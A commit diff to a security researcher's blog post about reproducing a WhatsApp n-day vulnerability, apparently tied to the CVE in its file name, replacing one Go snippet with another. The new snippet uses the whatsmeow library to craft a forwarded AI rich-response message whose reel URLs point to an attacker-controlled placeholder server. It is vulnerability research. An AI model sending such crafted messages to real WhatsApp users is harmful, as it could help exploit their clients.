

CVE: Update, found how to fix message not displaying

diff --git a/content/posts/CVE-2026-23866-Finding-a-Whatsapp-nDay.md b/content/posts/CVE-2026-23866-Finding-a-Whatsapp-nDay.md
@@ -310,71 +310,101 @@ Finding the other sink is like finding a needle in a haystack - I did try to deb
 
 I did try to send the message using [whatsmeow](https://github.com/tulir/whatsmeow) with this snippet:
 ```go
-    message := &waE2E.Message{
-        RichResponseMessage: &waE2E.AIRichResponseMessage{
-            MessageType: waAICommonDeprecated.AIRichResponseMessageType_AI_RICH_RESPONSE_TYPE_STANDARD.Enum(),
-            Submessages: []*waAICommonDeprecated.AIRichResponseSubMessage{
-                {
-                    MessageType: waAICommonDeprecated.AIRichResponseSubMessageType_AI_RICH_RESPONSE_CONTENT_ITEMS.Enum(),
-                    ContentItemsMetadata: &waAICommonDeprecated.AIRichResponseContentItemsMetadata{
-                        ContentType: waAICommonDeprecated.AIRichResponseContentItemsMetadata_CAROUSEL.Enum(),
-	  ItemsMetadata: []*waAICommonDeprecated.
-                            AIRichResponseContentItemsMetadata_AIRichResponseContentItemMetadata{
-                            // Reel #1
-                            {
-                                AIRichResponseContentItem: &waAICommonDeprecated.
-                                    AIRichResponseContentItemsMetadata_AIRichResponseContentItemMetadata_ReelItem{
-                                    ReelItem: &waAICommonDeprecated.
-                                        AIRichResponseContentItemsMetadata_AIRichResponseReelItem{
-                                        Title: proto.String(
-                                            "Example Reel 1",
-                                        ),
-                                        ProfileIconURL: proto.String(
-                                            "http://[VPS_URL]/thumb1.jpg",
-                                        ),
-                                        ThumbnailURL: proto.String(
-                                            "http://[VPS_URL]/thumb2.jpg",
-                                        ),
-                                        VideoURL: proto.String(
-                                            "http://[VPS_URL]/video.mp4",
-                                        ),
-                                    },
-                                },
-                            },
-                            // Reel #2
-                            {
-                                AIRichResponseContentItem: &waAICommonDeprecated.
-                                    AIRichResponseContentItemsMetadata_AIRichResponseContentItemMetadata_ReelItem{
-                                    ReelItem: &waAICommonDeprecated.
-                                        AIRichResponseContentItemsMetadata_AIRichResponseReelItem{
-                                        Title: proto.String(
-                                            "Example Reel 2",
-                                        ),
-                                        ProfileIconURL: proto.String(
-                                            "http://[VPS_URL]/thumb1.jpg",
-                                        ),
-                                        ThumbnailURL: proto.String(
-"http://[VPS_URL]/thumb2.jpg",
-                                        ),
-                                        VideoURL: proto.String(
-"http://[VPS_URL]/video2.mp4",
-                                        ),
-                                    },
-                                },
-                            },
-                        },
-                    },
-                },
-            },
-        },
-    }
+botJID := "test@bot"
+
+forwardOrigin := waE2E.ContextInfo_ForwardOrigin(4)
+
+unifiedData := []byte(`{
+  "response_id": "test-reel-123",
+  "sections": [
+    {
+      "view_model": {
+        "__typename": "GenAIHScrollLayoutViewModel",
+        "primitives": [
+          {
+            "__typename": "GenAIReelPrimitive",
+            "reels_url": "http://[VPS_URL]/test.mp4",
+            "thumbnail_url": "http://[VPS_URL]/test.jpg",
+            "creator": "testuser",
+            "avatar_url": "http://[VPS_URL]/test.jpg",
+            "reels_title": "Test Reel",
+            "likes_count": 123,
+            "shares_count": 12,
+            "view_count": 4567,
+            "reel_source": "IG",
+            "is_verified": false
+          }
+        ]
+      }
+    }
+  ]
+}`)
+
+rich := &waE2E.AIRichResponseMessage{
+	MessageType: waAICommonDeprecated.
+		AIRichResponseMessageType_AI_RICH_RESPONSE_TYPE_STANDARD.
+		Enum(),
+
+	Submessages: []*waAICommonDeprecated.AIRichResponseSubMessage{
+		{
+			MessageType: waAICommonDeprecated.
+				AIRichResponseSubMessageType_AI_RICH_RESPONSE_CONTENT_ITEMS.
+				Enum(),
+
+			ContentItemsMetadata: &waAICommonDeprecated.AIRichResponseContentItemsMetadata{
+				ContentType: waAICommonDeprecated.
+					AIRichResponseContentItemsMetadata_CAROUSEL.
+					Enum(),
+
+				ItemsMetadata: []*waAICommonDeprecated.
+					AIRichResponseContentItemsMetadata_AIRichResponseContentItemMetadata{
+					{
+						AIRichResponseContentItem: &waAICommonDeprecated.
+							AIRichResponseContentItemsMetadata_AIRichResponseContentItemMetadata_ReelItem{
+							ReelItem: &waAICommonDeprecated.
+								AIRichResponseContentItemsMetadata_AIRichResponseReelItem{
+								Title:          proto.String("testuser"),
+								ProfileIconURL: proto.String("http://[VPS_URL]/avatar.jpg"),
+								ThumbnailURL:   proto.String("http://[VPS_URL]/test.jpg"),
+								VideoURL:       proto.String("http://[VPS_URL]/test.mp4"),
+							},
+						},
+					},
+				},
+			},
+		},
+	},
+
+	UnifiedResponse: &waAICommon.AIRichResponseUnifiedResponse{
+		Data: unifiedData,
+	},
+
+	ContextInfo: &waE2E.ContextInfo{
+		IsForwarded:     proto.Bool(true),
+		ForwardingScore: proto.Uint32(1),
+
+		ForwardedAiBotMessageInfo: &waAICommon.ForwardedAIBotMessageInfo{
+			BotJID: proto.String(botJID),
+		},
+
+		ForwardOrigin: &forwardOrigin,
+	},
+}
+
+message := &waE2E.Message{
+	BotForwardedMessage: &waE2E.FutureProofMessage{
+		Message: &waE2E.Message{
+			RichResponseMessage: rich,
+		},
+	},
+}
 ```
 
-But here is what it displays on recent versions:
+Here is what it displays on recent versions:
 
 ![How it displays on recent versions](/images/WA/fugazi.png)
 
-So it's not possible to really see how it would display on old versions and I really don't want to have to dig in the Swift UI components of Whatsapp, the fact the it compiles inline is really annoying because it makes it way harder to decompile - IDA doesn't load the stubs to load the arguments and thus you have to dig in each stub to know which argument goes where.
+It's not possible to really see how it would display on old versions and I really don't want to have to dig in the Swift UI components of Whatsapp, the fact the it compiles inline is really annoying because it makes it way harder to decompile - IDA doesn't load the stubs to load the arguments and thus you have to dig in each stub to know which argument goes where.
 
 Maybe a plugin such as [this](https://github.com/cellebrite-labs/FunctionInliner) would be a good solution to "bypass" the compiler's optimizations but this isn't what this blog post is about.
 
